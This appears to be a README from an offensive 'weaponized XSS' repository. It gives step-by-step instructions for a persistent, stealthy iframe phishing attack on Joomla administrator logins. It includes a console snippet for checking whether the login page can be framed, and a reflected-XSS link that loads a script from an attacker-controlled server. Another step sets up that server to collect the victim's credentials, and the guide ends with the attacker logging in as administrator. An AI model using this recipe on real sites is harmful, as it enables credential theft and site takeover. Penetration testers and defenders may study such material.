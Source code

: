 # [unauthn] Iframe Login Page (Phish)

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.19

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.19/administrator/";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginJoomla.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/phishLoginJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Joomla site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/IframeLogin/screenshots/Joomla_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/416232be-16b4-4324-9321-d9c3058b9ff9
